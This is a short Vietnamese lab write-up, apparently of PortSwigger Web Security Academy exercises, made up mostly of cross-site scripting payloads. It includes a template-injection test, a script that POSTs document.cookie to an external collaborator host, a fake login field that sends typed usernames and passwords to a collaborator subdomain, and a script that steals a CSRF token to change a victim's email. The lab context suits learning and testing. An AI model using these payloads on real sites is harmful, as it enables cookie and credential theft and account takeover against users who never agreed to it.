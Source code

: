 Ở bài này inject vào template nên ngoài các cách XSS cũ ta có thể nghĩ đến SSTI payload, bài này thử với `${}` thành công, và payload: `${alert(1)}`

## Exploiting cross-site scripting to steal cookies

```js
<script>
    fetch('https://ebty5bf18db9t8dai0aew74c83eu2lqa.oastify.com', {
        method: 'POST',
        mode: 'no-cors',
        body:document.cookie
    });
</script>
```

## Exploiting cross-site scripting to capture passwords

Payload: 

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

## Exploiting XSS to bypass CSRF defenses

Dùng XSS để đánh cắp `csrf token` và CSRF để đổi email:

```js
<script>
    //Gửi request
    var req = new XMLHttpRequest();
    req.onload = handleResponse;
    req.open('get','/my-account',true);
    req.send();
    //Lấy csrf token
    function handleResponse() {
        var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
        var changeReq = new XMLHttpRequest();
        //Gửi form với csrf token và email mới
        changeReq.open('post', '/my-account/change-email', true);
        changeReq.send('csrf='+token+'&email=test@test.com')
    };
</script>
```

# CSRF (11 bài)
